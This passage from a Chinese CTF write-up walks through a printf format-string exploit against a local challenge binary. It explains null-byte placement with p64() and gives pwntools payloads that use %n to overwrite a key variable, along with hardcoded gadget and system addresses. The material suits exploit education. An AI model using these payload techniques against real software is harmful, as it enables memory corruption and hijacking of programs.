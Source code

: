 由于一个p64()本身就会占据8个字节,所以我们就只需再输出94个字符即可.

但是,当我们尝试运行它时,程序却没有成功修改key为102.事实上,当我们查看0x6010A0处的内容时,我们会发现它完全没有被修改过.

为什么呢?

这是因为p64()的作用是将0x6010A0转换为64位的小端序字节序列,所以我们传给程序的东西实际上是这样的:

​	A0 10 60 00	00 00 00 00	.......

​		↑低8位		↑高8位

而printf的规则是输出到\x00停止(此事在新生赛canary泄露中亦有记载),因此当程序把 A0 10 60 给输出出去以后,printf就摸了...

于是我们将地址挪到后面去

```python
from pwn import *
#6
#0x601000-0x602000
read_add=0x4007E8
bss_add=0x601C00
learet_add=0x400758
key_add=0x6010A0
sys_add=0x4005C0
hdctf_add=0x6010C0
rdi_add=0x400893
r=process("./minions1")
#gdb.attach(r)
pause()
payload1=b'%102c%8$p'+p64(key_add)#改成%p,以观察构造是否正确
```

但在实际操作中,又出现了问题:

```
Hello,                                                                                                       �(nil)\xa0\x10`
																										//	我是注释→	 \x60↑
```

似乎是因为前面的格式化字符串多了一个字,导致有什么东西被挤到后面的地址部分了

那么稍微改一下:

```python
from pwn import *
#6
#0x601000-0x602000
read_add=0x4007E8
bss_add=0x601C00
learet_add=0x400758
key_add=0x6010A0
sys_add=0x4005C0
hdctf_add=0x6010C0
rdi_add=0x400893
r=process("./minions1")
#gdb.attach(r)
pause()
payload1=b'aaaaaaaa'+b'%94c%9$n'+p64(key_add)#由于前面多了8个a,所以地址应该会被挤到第九个参数
```
